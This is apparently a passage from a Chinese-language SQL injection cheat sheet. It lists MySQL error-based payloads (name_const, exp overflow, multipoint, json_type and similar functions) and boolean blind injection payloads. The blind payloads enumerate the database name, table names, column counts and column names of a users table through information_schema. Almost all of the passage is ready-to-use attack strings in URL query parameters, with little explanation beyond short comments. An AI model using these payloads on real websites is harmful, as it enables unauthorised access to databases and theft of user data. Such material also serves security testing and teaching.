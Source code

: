 - `name_const(name,value)`

```sql
#获取数据库版本信息
?id=1'and (select * from (select name_const(version(),1),name_const(version(),1))a)--+
```

- `exp`-->整形溢出,是以`e`为底的指数函数,参数大于`709`时会溢出

```sql
#显版本信息
?id=1'and exp(~(select * from (select version())a))--+
```

- `multipoint`

```sql
#获取数据库版本信息
?id=1'and (select multipoint((select * from(select * from(select * from(select version())a)b)c)))--+
```

- `json`

```sql
#json_type
?id=1'and json_type(version())--+

#json_extract(json_doc,path[,path])
?id=1'and json_extract(user(),'$.a')--+

#json_array_append()
?id=1'and json_array_append('[1,2,3]',user(),1) --+
```

------

#### `布尔盲注`

> 相关函数`substr`,`substring`,`mid`,`left`,`right`,`length`,`ascii`

```sql
#判断数据库名长度-->n为数据库名长度
?id=1'and length(database())=n --+ 

#获取数据库名称
?id=1'and (substr(database(),1,1))='s'--+

#获取第一张表名长度
?id=1'and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6)--+

#获取表的个数-->m为表的个数
?id=1'and (select count(*) from information_schema.tables where table_schema=database())=m --+

#获取表名
?id=1'and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)="m")--+

#获取字段个数(id,username,password)
?id=1'and ((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3)--+

#获取字段长度(id)
?id=1'and (length((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1))=2)--+

#获取字段名(users-->"s") 这里直接对字符进行猜解,注意 `limit 1,1),2,1` 里面的第三个数字是从1开始
?id=1' and substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 1,1),2,1) = "s" --+
```